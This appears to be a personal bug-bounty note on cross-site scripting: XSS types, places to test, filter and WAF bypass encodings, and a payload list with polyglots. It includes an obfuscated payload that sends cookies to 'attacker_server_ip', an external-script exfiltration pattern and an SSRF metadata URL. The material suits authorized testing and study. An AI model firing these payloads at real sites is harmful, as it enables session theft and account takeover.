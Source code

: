> [!NOTE] note that
> - no clear cut to pass WAF, figuring out what works and doesn’t [Awesome-WAF](https://github.com/0xInfection/Awesome-WAF),[XSS-Filter-Bypass-Cheat-Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet) [[Bypass WAF]]
> - finding XSS mean that this site’s security is bad so we can find more [meta-data](http://169.254.169.254/latest/meta-data) [[SSRF]]
> - if u can't then try [[HTML injection]]
### Types and pref

#### Reflected XSS
> Reflected XSS vulnerabilities happen when user input is returned to the user without being stored in a database. The application takes in user input, processes it server-side, and immediately returns it to the user
#### Stored XSS
> when user input is stored on a server and retrieved unsafely
##### blind XSS 
> Blind XSS vulnerabilities are stored XSS vulnerabilities whose malicious input is stored by the server and executed in another part of the application or in another application that you cannot see. These XSS flaws are harder to detect, since you can’t find them by looking for reflected input Often, blind XSS can be used to attack administrators.
 
> use payload from [xsshunter](https://xsshunter.com/features) ,or [knoxss.me](http://knoxss.me/), monitor logs and wait :)
#### DOM XSS
> DOM-based XSS is similar to reflected XSS, except that in DOM-based XSS, the user input never leaves the user’s browser. In DOM-based XSS, the application takes in user input, processes it on the victim’s browser, and then returns it to the user.
> 	 - JavaScript libraries like **jQuery** are prone to DOM-based XSS
> 	 - when ever u see **URL fragments**
##### Self-XSS
> Self-XSS attacks require victims to input a malicious payload themselves. To perform these, attackers must trick users into doing much more than simply viewing a page or browsing to a particular URL.
> 	In bug bounties, self-XSS bugs are not usually accepted as valid submissions because they require social engineering
> 	to get high impact use it with other vuln: [uber-turning-self-xss-into-good-xss](https://whitton.io/articles/uber-turning-self-xss-into-good-xss/)

### where to find
1. test every parameter that reflected in the page, even drop down values, and multi select
2. inject 'devMRT' then use [Ctrl+f] to find where string get reflected
3. >'<"//:=;!--. Take note of which ones the application escapes and which get rendered directly
4. for DOM:
	> figure out where user input (source such `document.*`, and `location.*`) is being used in the application. If the source is being paced to a dangerous sink you could have XSS.
1. common endpoints:
	1. forms, search boxes, and name and username fields in sign-ups.
	2. "/upload_profile_pic?url=IMAGE_URL" => `data:text/html,<scrip...`
2. common parameters: 
	1. "q", "s", "search", "id", "lang", "keyword", "query", "page", "keywords", "year", "view", "email", "type", "name", "p", "month", "image", "list_type", "url", "terms", "categoryid", "key", "l", "begindate", "enddate"
> after send the payload be sure to view the page source and confirm whether your payloads are being rendered in HTML or JavaScript tags.

> for stored XSS make sure u visit each location your payload rendered at 

> When sites sanitize user input by modifying it instead of encoding or escaping values, you should continue testing the site’s server-side logic. start asking "what if" and let the site answer

> try to find alternative input method for XSS payload like JSON
> remember to use iframe with `src=javascript:alert(document.domain)`
### Process for testing for XSS & filtering:
1. find if there are any allowed tags <img>, `<h1>` ,`<table>`, `<u>`. 
2. reflected in encoding format then try:  `&it;` or `%3C`,or double encoding `%253C` and `%26lt;` [more encoding](https://d3adend.org/xss/ghettoBypass)
3. try to include script from out source: `<script src=//mysite.com?c=`
4. or add some encoded chars: `<%00iframe`, `on%0derror` `<%00h2` , `%0d`, `%0a`, `%09`
5. `string.fromCharCode()` ex
	```js
	<scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT> => "http://attacker_server_ip/?c="
   ```
   use on of following to get ascii code for your payload:
   1. https://js.do/
   2.  js code
	```js
	<script>
		function ascii(c){ return c.charCodeAt(); }
		encoded = "INPUT_STRING".split("").map(ascii);
		document.write(encoded);
	</script>
	```
[OWASP’s XSS filter evasion cheat sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
###### stop if: not matter what you try you always see `&lt;script&gt;` or `%3Cscript%3E`

### payloads
`</script/x>`, `<ScRipt>` 
no space⇒ `<svg/onload=alert()>` 
`<iframe src="<http://colabrator>">`,`<iframe src=javascript:alert(1)>`
`"><img img src=x onerror=prompt(1);>`
`<a onmouseover"alert(1)">test</a>`
<svg/onload=prompt{`document.cookie`}> 
URLs: 
```urls
javascript%0a:\\u0061lert(origin)
javascript%0a:alert(origin)
java%0d%0ascript%0d%0a:alert(0)
j%0d%0aava%0d%0aas%0d%0acrip%0d%0at%0d%0a:confirm`0`
java%09scrip%07t:prompt`0` jjavascriptajavascriptvjavascriptajavascriptsjavascriptcjavascriptrjavascriptijavascript pjavascriptt:confirm`0`
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIGJ5IFZpY2tpZScpPC9zY3JpcHQ+
data:text/html,<script>alert(0)</script>
<dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x>`
<inpuT autofocus oNFocus="setTimeout(function){/*\*/top['al'+\u0065'+'rt'](1)/*\*/}，5000);"></inpuT%3E；
<Img+Src=javascript:alert(1)+OnError=location=src>
```

###### XSS polyglot
> a type of XSS payload that executes in multiple contexts. it will execute XSS regardless of whether it is inserted into an `<img>` `<script>` , `<a>` or `<p>`
> https://polyglot.innerht.ml/: 
```js
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert())//%0D%0A%0d%0a//<stYle/<tiTle/</teXtarEa/</ScRiPt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
### fuzzing
> automatically test a site for already-known XSS vectors is through fuzzing
``` js
GET /search?q=FUZZ 
Host: example.com 

POST /send_email 
Host: example.com
..........
user_id=abc&title=FUZZ&body=FUZZ
```
use payload lists:
[portswigger cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet/)
[Payload Box XSS payload list](https://github.com/payloadbox/ xss-payload-list)
Wfuzz wordlist
[NetSec.expert XSS payloads](https://netsec.expert/posts/xss-in-2020)

> [!NOTE] Title
> In some situations, the URL won’t match the origin. For example, about:blank and javascript: schemes inherit the origin of the document opening them. The about:blank context accesses information from or interacts with the browser, whereas javascript: executes JavaScript. The URL doesn’t provide information about its origin, so browsers handle these two contexts differently. When you find an XSS vulnerability, using alert(document.domain) in your proof of concept is helpful: it confirms the origin where the XSS executes, especially when the URL shown in the browser is different from the origin the XSS executes against. This is exactly what happens when a website opens a javascript: URL. If www..com opened a javascript:alert(document.domain) URL, the browser address would show javascript:alert(document.domain). But the alert box would show www..com because the alert inherits the origin of the previous document.

more at: file:///F:/Courses/02-cyber%20security/4-%20offensive%20security/PDFs/Offensive%20Security%20AWAE%20WEB-300%20OSWE.pdf page:344

### XSS Auditors
Browsers, try to prevent reflect and stored XSS by introducing *XSS Auditors*, here's how to bypass 
- [Browser's-XSS-Filter-Bypass-Cheat-Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet)
- https://blog.innerht.ml/the-misunderstood-x-xss-protection/




file:///F:/Courses/02-cyber%20security/6-%20bug%20bounty/BugBountyBooks/Real-World%20Bug%20Hunting%20-%20A%20Field%20Guide%20to%20Web%20Hacking%20by%20Peter%20Yaworski.pdf => 108 
### tools
XSStrick  , Axiom

#### fresh writeups
skii.dev/rook-to-xss/ 